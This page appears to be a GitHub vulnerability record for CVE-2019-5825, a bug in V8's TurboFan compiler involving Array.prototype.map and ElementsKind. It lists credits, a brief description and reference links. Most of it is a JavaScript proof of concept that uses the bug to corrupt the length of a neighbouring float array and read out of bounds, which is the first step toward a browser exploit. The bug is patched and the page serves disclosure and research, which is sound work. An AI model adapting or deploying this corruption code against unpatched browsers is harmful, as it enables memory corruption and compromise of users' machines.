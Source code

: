 # CVE-2019-5825
* Date : April 2019
* Credit : Gengming Liu, Jianyu Chen, Zhen Feng, Jessica Liu at Tencent Keen

## Description
[TurboFan] Array.prototype.map wrong ElementsKind for output array

## PoC
```js
// This call ensures that TurboFan won't inline array constructors.
Array(2**30);

// we are aiming for the following object layout
// [output of Array.map][packed float array]
// First the length of the packed float array is corrupted via the original vulnerability,

// offset of the length field of the float array from the map output
const float_array_len_offset = 23;

// Set up a fast holey smi array, and generate optimized code.
let a = [1, 2, ,,, 3];
var float_array;

function mapping(a) {
  function cb(elem, idx) {
    if (idx == 0) {
      float_array = [0.1, 0.2];
    }
    if (idx > float_array_len_offset) {
      // minimize the corruption for stability
      throw "stop";      
    }
    return idx;
  }
  
  return a.map(cb);
}
mapping(a);
mapping(a);
%OptimizeFunctionOnNextCall(mapping);
mapping(a);

// Now lengthen the array, but ensure that it points to a non-dictionary
// backing store.
a.length = (32 * 1024 * 1024)-1;
a.fill(1, float_array_len_offset, float_array_len_offset+1);
a.fill(1, float_array_len_offset+2);

a.push(2);
a.length += 500;

// Now, the non-inlined array constructor should produce an array with
// dictionary elements: causing a crash.
cnt = 1;
try {
  mapping(a);
} catch(e) {
  console.log(float_array.length);
  console.log(float_array[3]);
}
```

## Reference
[Stable Channel Update](https://chromereleases.googleblog.com/2019/04/stable-channel-update-for-desktop_30.html)  
[issue 941743](https://bugs.chromium.org/p/chromium/issues/detail?id=941743)  
[Exodus 1day Writeup](https://blog.exodusintel.com/2019/04/03/a-window-of-opportunity/)  
[Exodus 1day Github](https://github.com/exodusintel/Chromium-941743)  